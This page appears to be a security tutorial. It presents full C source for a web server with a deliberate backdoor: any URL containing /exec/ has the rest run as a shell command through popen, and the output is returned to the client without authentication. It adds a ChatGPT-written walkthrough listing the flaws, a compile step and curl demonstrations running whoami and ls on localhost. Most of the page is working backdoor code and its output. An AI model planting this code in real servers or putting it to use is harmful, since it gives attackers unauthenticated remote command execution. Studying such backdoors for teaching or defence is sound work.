

Backdoored Webserver#
{kind=link}
Introduction#
In this section, we will discuss the implementation of a backdoored web server in C. The backdoored web server is a simple web server that listens on a specified port and serves files from a specified directory. The backdoor functionality allows an attacker to execute arbitrary commands on the server by sending specially crafted HTTP requests.
Explanation of Code by ChatGPT 4o (OpenAI)#
The provided C code implements a basic HTTP server with a backdoor functionality that listens for incoming HTTP requests, processes them, and executes commands embedded in the URL of the request if specific conditions are met. Here’s a detailed explanation of the code:
Key Functionalities#
Socket Communication:
The server listens on a specified port for incoming connections.
It processes HTTP requests from clients and sends appropriate responses.
Backdoor Command Execution:
If the URL in the HTTP request contains
/exec/, the server interprets the string after/exec/as a system command.This command is executed using
popen, and the output is sent back to the client.
URL Decoding:
Encoded URLs are decoded to retrieve their original form.
Response Handling:
The server can send different HTTP responses: 200 OK, 404 Not Found, or 400 Bad Request.
Main Components#
Global Definitions#
Buffer Sizes:
BUFFER_SIZEand other constants are used to define limits for reading data and constructing responses.Predefined Responses: Strings for various HTTP response codes (
200 OK,404 Not Found, etc.) are constructed.
Main Function#
Socket Setup:
A socket is created and configured to listen on the specified port (
socketandbindcalls).The
setsockoptfunction allows reusing the socket address.
Listening for Connections:
The
listenfunction queues incoming connections.The server accepts connections with
acceptand processes each request in a loop.
Processing Requests:
Receiving Data: Incoming HTTP requests are read into a buffer using
recv.URL Parsing: The
get_URL_from_headerfunction extracts the URL from the HTTP request header.URL Decoding: The extracted URL is decoded using
URL_decode.Command Handling:
If the URL contains
/exec/, the part after it is treated as a shell command.The command is executed, and its output is sent to the client as part of the HTTP response.
Invalid Requests: Requests without
/exec/or malformed URLs receive appropriate error responses (404or400).
Response Sending:
send_responsesends the constructed response back to the client.
Helper Functions#
send_response: Sends an HTTP response back to the client socket, handling both successful and error cases.get_URL_from_header: Extracts the URL from the first line of the HTTP request header.URL_decode: Decodes percent-encoded characters in URLs (e.g.,%20becomes a space).does_URL_contain_slash_exec: Checks if the URL contains the/exec/substring.get_CMD_from_decoded_URL: Extracts the command from the decoded URL after/exec/.execute_command_return_output: Executes a shell command usingpopenand captures its output.
Key Vulnerabilities and Concerns#
Backdoor Implementation:
The
/exec/functionality allows remote execution of arbitrary shell commands, creating a severe security vulnerability.
Unsafe Command Execution:
Commands are executed without validation or sanitization, exposing the server to command injection attacks.
Lack of Authentication:
No mechanism to authenticate or authorize incoming requests, making the server open to exploitation.
Memory Leaks and Errors:
The program lacks comprehensive error handling for
mallocandrealloc, potentially leading to memory leaks.
Debug Information Exposure:
Printing debug information, such as the request content and decoded commands, can expose sensitive data.
Non-Threaded Design:
The server handles only one request at a time, which is inefficient for multiple clients.
Recommendations#
Remove or restrict the
/exec/functionality to prevent unauthorized command execution.Implement input validation and sanitization.
Add authentication mechanisms to ensure only authorized users can interact with the server.
Use secure coding practices, such as properly managing memory allocations and handling errors.
Improve the server’s architecture to support concurrent connections, possibly using threading or asynchronous I/O.
This code appears to be designed for demonstration or testing purposes rather than production use due to its significant security flaws.
Program Code#
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
// Line below for debug
//#define PORT 8080
// Size of the buffer to use for reading data from the socket
#define BUFFER_SIZE 1024
// Number of connections to queue
#define NUM_CONNECTIONS 5
// Function to send a response to the client
int send_response(int sockfd, char* response);
// Function to get the URL from the HTTP header
char * get_URL_from_header(char * buffer_in);
// Function to decode the URL
char * URL_decode(char * URL_in);
// Function to get the command from the decoded URL
char * get_CMD_from_decoded_URL(char * decoded_URL_in);
// Function to check if the URL contains the string "/exec"
int does_URL_contain_slash_exec(char * URL_in);
// Function to execute a command and return the output to a buffer
char * execute_command_return_output(char * command_in);
int main(int argc, char *argv[])
{
// Holds the socket file descriptor
int sockfd;
// Holds the new socket file descriptor for the accepted connection
int new_sockfd;
// Holds the port number on which to listen for connections
int server_port;
// Structure that holds the address of the host and client
struct sockaddr_in host_addr, client_addr;
// Holds the size of the structures above
socklen_t sin_size;
// Holds the number of bytes received
int recv_length = 1;
// Holds the status of the setsockopt() call
int yes = 1;
// Holds the data received over the socket
char buffer[BUFFER_SIZE];
// Holds the URL from the HTTP header
char * URL;
// Holds the decoded URL
char * decoded_URL;
// Holds the command extracted from the decoded URL
char * backdoor_command;
// Holds the output of the command
char * command_output;
// For debug
// Holds a 200 response to send to the client
char http200_response_no_length[] =
"HTTP/1.1 200 OK\x0D\x0A";
// "Content-Type: text/html\x0D\x0A";
// Holds a 404 response to send to the client (no length field)
char http404_response_no_length[] =
"HTTP/1.1 404 Not Found\x0D\x0A";
// "Content-Type: text/html\x0D\x0A";i
// Holds a 400 response to send to the client (no length field)
char http400_response_no_length[] =
"HTTP/1.1 400 Bad Request\x0D\x0A";
// Holds the html code for the 404 response. May need to nix the HTML
// and just send the text.
char http404_html_code[] =
"<html>\r\n"
"<head><title>404 Not Found</title></head>\r\n"
"<body>\r\n"
"<h1>404 Not Found</h1>\r\n"
"<p>The requested resource could not be found.</p>\r\n"
"</body>\r\n"
"</html>\r\n";
char http404_response_no_html[] =
"HTTP/1.1 404 Not Found\r\n"
"Content-Type: text/html\r\n"
"404 Not Found\r\n"
"The requested resource could not be found.\r\n";
// This string will will be augmented with the content length
// not used for now.
char content_length_string[] = "Content-Length: ";
// Quality of life string for adding a carriage return and newline
// Will tack this on to content_length_string
//char CR_plus_NL[] = "\x0D\x0A";
char CR_plus_NL[] = "\x0D\x0A";
// Silly message to send in the content body.
// Change to actual html?
char message_to_send[] = "Hello, World!\r\n";
// The return status of the send function
int send_status = 0;
// Holds the content length of the reponse
int content_length = 0;
// Holds the built up 200 response to send to the client
char http200_response[8192] = "";
// Holds the built up 404 response to send to the client
char http404_response[1024] = "";
// Holds the built up 400 response to send to the client
char http400_response[1024] = "";
// Create normal 200 response to GET request (no length).
// The 200 response is used for debug.
strcat(http200_response, http200_response_no_length);
strcat(http200_response, CR_plus_NL);
//strcat(http200_response, message_to_send);
//printf("%s", http200_response); // for debug
// Create a 404 response by combining parts.
strcat (http404_response, http404_response_no_length);
strcat (http404_response, CR_plus_NL);
//strcat (http404_response, http404_html_code);
// For debug
//printf("\n%s", http404_response); // for debug
// Create a 400 response by combining parts.
strcat (http400_response, http400_response_no_length);
strcat (http400_response, CR_plus_NL);
// Lines below for debug to see if port was passed in
printf("\nThe number of command line arguments is -> %d\n", argc - 1);
printf("The command line argument is %s\n", argv[1]);
// Check to see if a port number was passed in and exit if not
if (argc == 1) {
printf("Port number not specified, exiting...\n");
exit(1);
}
// Convert the port number from a string to an integer
server_port = atoi(argv[1]);
// Create the socket; fail if it can't be created
if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
{
perror("Error creating socket");
exit(1);
}
// Set the socket options to allow the port to be reused
// fail if not successful to set options
if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int)) == -1)
{
perror("Error setting socket options");
exit(1);
}
// Setup the main structure
// Set the address family to AF_INET (IPv4)
host_addr.sin_family = AF_INET;
// Set the port number to the port passed in. Use htons() to convert.
host_addr.sin_port = htons(server_port);
// Set the IP address to INADDR_ANY (any IP address on the machine).
host_addr.sin_addr.s_addr = INADDR_ANY;
// Zero out the rest of the struct
memset(&(host_addr.sin_zero), '\0', 8);
// Bind the socket to the port passed in
// Fail if not successful
if (bind(sockfd, (struct sockaddr *)&host_addr, sizeof(struct sockaddr)) == -1)
{
perror("Error binding to socket");
exit(1);
}
// Listen on the socket for connections
// Fail if not successful
if (listen(sockfd, NUM_CONNECTIONS) == -1)
{
perror("Error listening on socket");
exit(1);
}
// Main loop
while (1)
{
// Get size of the main structure
sin_size = sizeof(struct sockaddr_in);
// Accept a connection
// Fail if not successful
new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
if (new_sockfd == -1)
{
perror("Error accepting connection");
continue;
}
// Print a message to the console to show a connection was accepted
printf("Connection Accepted...\n");
// Receive the GET request from the client
// a -1 from the recv function indicates an error
// fail if not successful
recv_length = recv(new_sockfd, buffer, BUFFER_SIZE - 1, 0);
if (recv_length == -1)
{
perror("Error receiving message");
exit(1);
}
// Terminate the GET request string with a null character
buffer[recv_length] = '\0';
// Print the GET request to the console for debug
printf("RECV: %s", buffer);
// Get the URL from the GET request
URL = get_URL_from_header(buffer);
// Decode the URL
decoded_URL = URL_decode(URL);
// Check to see if the URL is a backdoor command
if (does_URL_contain_slash_exec(decoded_URL) == 1)
{
// Get the command from the decoded URL
backdoor_command = get_CMD_from_decoded_URL(decoded_URL);
// Execute the command
command_output = execute_command_return_output(backdoor_command);
// Send the 200 response to the client
//send_status = send_response(new_sockfd, http200_response);
if (command_output != NULL) {
strcat(http200_response, command_output);
}
// Send a line break in html for debug
//send_status = send_response(new_sockfd, "</br>");
send_status = send_response(new_sockfd, http200_response);
// Free the memory used by the command output and reset the http200_response
strcpy (http200_response, "");
strcat (http200_response, http200_response_no_length);
strcat (http200_response, CR_plus_NL);
free(command_output);
// Handle the case where the request is invalid
} else if (strcmp (decoded_URL, "INVALID") == 0) {
// Send the 400 response to the client
send_status = send_response(new_sockfd, http400_response);
// Handle the case where the request is not a backdoor command
} else if (does_URL_contain_slash_exec(decoded_URL) == 0)
{
// Send the 404 response to the client
send_status = send_response(new_sockfd, http404_response);
}
// Lines below for debug
// Use below for manual sending of data
//send_status = send(new_sockfd, message, sizeof(message), 0);
//if (send_status == -1)
//{
// perror("Error sending message");
// exit(1);
//}
close(new_sockfd);
}
return 0;
}
int send_response(int sockfd, char* response) {
// Hold the number of bytes sent
int bytes_sent = 0;
// Holds the length of the response
int response_length = 0;
//char * error_response = "Error executing command...\n";
char * error_response = "";
int error_response_length = 0;
// Check to see if the response is empty
// send an error response if it is
if (response == NULL) {
//error_response_length = strlen(error_response);
response_length = strlen("");
bytes_sent = send(sockfd, response, response_length, 0);
} else {
// Get the length of a successfully executed response
response_length = strlen(response);
bytes_sent = send(sockfd, response, response_length, 0);
}
// Check to see if the response was sent successfully
if (bytes_sent == -1){
perror("Error sending response");
exit(1);
}
// Return the number of bytes sent
return (bytes_sent);
}
// This function returns the URL from the GET request
char * get_URL_from_header(char * buffer_in) {
// Get the method of the response
char * method = strtok(buffer_in, " ");
// Check to see if the method is a "GET" or "POST"
if ((strcmp(method, "GET") == 0) || strcmp(method, "POST") == 0) {
return strtok(NULL, " ");
} else {
// If the method is not a GET or POST, return invalid
return ("INVALID");
}
}
// This function decodes the URL encoded string and return the decoded string
char * URL_decode(char * URL_in) {
// The length of the URL
int len = strlen(URL_in);
// Allocate memory for the decoded URL
char* decoded_url = (char*)malloc(len + 1);
// The URL encoded token
char hex[3];
// Terminate the string
hex[2] = 0;
// Counter variables
int i = 0, j = 0;
// Loop through the URL and decode the tokens
for (i = 0; i < len; i++, j++) {
// Find the % character
if (URL_in[i] == '%') {
// Copy the next two characters after the % into the hex array
memcpy(hex, URL_in+i+1, 2);
// Convert the hex array to an integer and then a character and store in the decoded_url array
// at position zero
decoded_url[j] = (char) strtol(hex, NULL, 16);
// Advance the counter by two
i += 2;
} else {
// If the character is not a % then just copy it to the decoded_url array
decoded_url[j] = URL_in[i];
}
}
// Add the null character to the end of the decoded_url array
decoded_url[j] = 0;
printf("\nDecoded URL: %s\n", decoded_url);
return decoded_url;
}
// This function checks to see if the URL contains the string "/exec/"
int does_URL_contain_slash_exec(char * URL_in) {
// Target string to search for
char * exec = "/exec/";
if (((strstr(URL_in, exec) != NULL)) && ((strlen(URL_in) == strlen(exec)))) {
return 0;
}
// Search for the target string in the URL
// Return 1 if found, 0 if not found
if (strstr(URL_in, exec) != NULL) {
return 1;
} else {
return 0;
}
}
// This function gets the command from the decoded URL
char * get_CMD_from_decoded_URL(char * URL_in) {
// This function gets the command from the decoded URL
// The command is the string after the /exec/ in the URL
// The command to be returned from this function
char * command = NULL;
// The location of the last character of "/exec/"" in the URL
char * exec_location = strstr(URL_in, "/exec/");
// Fail if the exec_location is NULL
if (exec_location == NULL) {
command = "";
//perror("Error getting command from URL");
printf("No command in URL!!!\n");
return command;
//exit(1);
}
// Get everything after the last character of "/exec/" in the URL
command = exec_location + strlen("/exec/");
// Print the command for debug
printf("\nCommand: %s\n", command);
// Return the command
return command;
}
// This function executes a command and returns the output
char * execute_command_return_output(char * command_in) {
// Local buffer to store a line of output
char local_buffer[1024];
// The output of the command that will be returned from this function
char * output = NULL;
// The size of the output
size_t output_size = 0;
// The HTML break tag
char * html_break = "</br>";
// string that redirects stderr to stdout
char * redirect_std_err = " 2>&1";
// Get the length of the command
size_t command_in_length = strlen(command_in);
// Get the length of the redirect string
size_t redirect_std_err_length = strlen(redirect_std_err);
// Allocate memory for the redirected command. This will be a string that contains the command
// and the redirect string. (e.g. "ls -l 2>&1")
char * redirected_command_in = (char*)malloc(command_in_length + redirect_std_err_length + 1);
// Copy the command to the redirected command
strcpy(redirected_command_in, command_in);
// Append the redirect string to the redirected command
strcat(redirected_command_in, redirect_std_err);
// Use the popen function to execute the command and return the output to a stream
FILE* stream = popen(command_in, "r");
// Read the output a line at a time and store it in the local buffer
while (fgets(local_buffer, sizeof(local_buffer), stream) != NULL) {
// Tack on an HTML break to the end of each line of output
//strcat(local_buffer, html_break);
// Get the size of a line of output
size_t buffer_length = strlen(local_buffer);
// Reallocate memory for the output
output = realloc(output, output_size + buffer_length + 1);
// Copy a line of output to the output string
memcpy(output + output_size, local_buffer, buffer_length);
// Update the output size
output_size += buffer_length;
// Add the null character to the end of the output string
output[output_size] = '\0';
}
// Close the stream
int result = pclose(stream);
if (result == -1) {
perror("Error closing stream");
exit(1);
}
// Return the output of the command
return (output);
}
Compile the Code#
import os
curr_dir = ""
curr_dir = os.getcwd()
code_dir = curr_dir + "/" + "C_Code"
os.chdir(code_dir)
exec_status = os.system("gcc -ggdb3 -o backdoored_webserver backdoored_webserver.c")
Run the Code#
Running the code starts a webserver that listens on the specified port as an argument. You can access the server by sending HTTP requests to the server’s IP address and port. In this example, we will start the server on port 8080 like so:
./backdoored_webserver 8080
The output is as follows:
The number of command line arguments is -> 1
The command line argument is 8080
In another terminal, we use curl to send an HTTP request to the server. The curl command is as follows:
curl -i http://127.0.0.1:8080
and the response is:
HTTP/1.1 404 Not Found
However, if we send a request with the /exec/ keyword, we can execute commands on the server. For example:
curl -i http://127.0.0.1:8080/exec/whoami
The response will be:
HTTP/1.1 200 OK
haxor
Another example:
curl -i http://127.0.0.1:8080/exec/ls
The response will be:
HTTP/1.1 200 OK
backdoored_webserver
backdoored_webserver.c